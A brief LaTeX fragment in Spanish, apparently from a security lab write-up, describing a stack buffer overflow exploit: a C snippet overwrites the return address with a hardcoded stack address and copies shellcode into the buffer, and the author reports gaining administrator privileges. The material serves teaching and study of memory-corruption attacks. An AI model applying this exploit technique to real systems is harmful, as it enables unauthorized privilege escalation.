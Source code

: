 \documentclass[11pt]{article}
\begin{document}
La dirección de retorno que reemplaza la original sigue siendo la misma ya que
las instrucciones comienzan desde el mismo lugar, lo único que hay que modificar
es la cantidad de bytes a copiar con memcpy.

\begin{verbatim}
    char newra[] = "\x60\xeb\xff\xbf";
    memcpy(buffer + 36, newra, 4); 
    memcpy(buffer + 40, shellcode, 32);
\end{verbatim}

Luego compilo y ejecuto y puedo ver que efectivamente nuevamente tengo privilegios
de administrador.

\begin{figure}[h!]
    \begin{center}
        \texttt{[image: exploit2working.png]}
    \end{center}
\end{figure}
\end{document}
